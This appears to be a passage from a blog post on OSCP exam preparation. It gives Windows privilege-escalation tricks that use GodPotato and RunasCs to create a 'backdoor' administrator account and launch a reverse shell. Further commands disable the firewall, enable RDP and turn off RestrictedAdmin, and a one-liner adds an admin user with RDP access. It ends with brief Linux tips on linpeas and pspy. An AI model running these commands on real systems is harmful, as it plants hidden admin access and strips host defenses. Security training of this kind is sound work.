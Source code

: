 Now that's not it.

Sometimes the SeImpersonatePrivilege is not the actual intended path so the Godpotato shell will be broken and you will not be able to execute whoami, no output for mimikatz, etc.

Now the trick is to add an Administratror user using Godpotato.

```powershell
GodPotato -cmd "net user /add backdoor Password123"
GodPotato -cmd "net localgroup administrators /add backdoor"
```

Now to get a shell use RunasCs.exe

```powershell
RunasCs.exe backdoor Password123 "C:/Users/Public/reverse.exe" --force-profile --logon-type 8
```

This will give us a proper shell.

We can also open the RDP port and login using RDP. Run this as Administrator:

```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f

netsh advfirewall set allprofiles state off

reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Now you RDP using backdoor user.

This can also be done using netexec:

```bash
nxc smb <ip> -u backdoor -p Password123 -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

One liner to add a user and enable rdp:

```powershell
net user hacker Hacker123456@ /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable
```

## Linux Privilege Escalation

For Linux privilege escalation I use the usual linpeas with [pspy](https://github.com/DominicBreuker/pspy).

Pspy can check for programs or scripts that are running at regular intervals.

![How I Passed the OSCP.png](/postimgs/Images/How%20I%20Passed%20the%20OSCP.png)\
In this example we could check if we have write access on the script or if the script uses something like tar with `*` which could open up possibilities of the wildcard privesc path.
